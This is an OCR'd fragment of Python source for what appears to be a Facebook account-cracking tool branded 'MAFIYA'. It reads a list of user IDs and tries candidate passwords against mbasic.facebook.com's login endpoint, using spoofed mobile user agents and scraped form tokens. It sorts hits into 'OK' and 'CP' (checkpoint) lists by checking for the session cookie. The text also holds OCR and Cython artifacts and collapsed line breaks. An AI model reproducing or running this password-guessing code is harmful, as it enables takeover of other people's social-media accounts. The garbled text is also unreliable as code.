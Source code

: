 print('\n\n\033[0m The Prosess Done...')  		print('\n\033[1;92mTotal OK : %s •  Total CP : %s'%(str(len(ok)),str(len(cp))));exit()  		#print('\033[1;91mCHECK > %s'%(str(len(cp))));exit()  	else:  		print('\n\033[0mERROR')  		exit()  class __crack__:  	def __init__(self):  		self.id = []  	def plerr(self):  		try:  			self.apk = input(" \033[1;96m[*] FILE PATH : ")  			print (' \033[1;96m[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')  			self.id = open(self.apk).read().splitlines()  			print(' \033[1;32m[*] TOTAL ID : %s'%(len(self.id)))  			print (' \033[1;32m[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')  			print(' \033[1;93m[*]\033[1;93m    METHOD\033[1;37m')  			print (' \033[1;93m[*]｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡｡')  		except:  			print('\n [!] File Not Found In Storage')  			input('\n [*] Press Enter To Back');R()         		self.__pler__()  	def __mbasic__(self, user, _sempak_):  		global ok,cp,loop  		sys.stdout.write('\r\033[1;32m(MAFIYA ❤️) \033[1;97m%s/%s   \033[1;92m[ OK-:%s ]  \033[1;91m[ CP-:%s ] '%(loop,len(self.id),len(ok),len(cp))),  		sys.stdout.flush()  		for pw in _sempak_:  			pw = pw.lower()  			try: os.mkdir('')  			except: pass  			try:  				ua_xiaomi = open('agent.txt', 'r').read()  				ua_nokia = open('agent.txt', 'r').read()  			except (KeyError, IOError):  				ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'  				ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+'  			ses = requests.Session()  			headers_ = {"Host":"mbasic.facebook.com","upgrade-insecure-requests":"1","user-agent":"NokiaC3-00/5.0 (08.63) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}  			p = ses.get('https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F', headers=headers_).text  			dataa = {"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":user,"flow":"login_no_pin","pass":pw,"next":"https://developers.facebook.com/tools/debug/accesstoken/"}  			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment
start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}  			po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)  			if 'c_user' in ses.cookies.get_dict():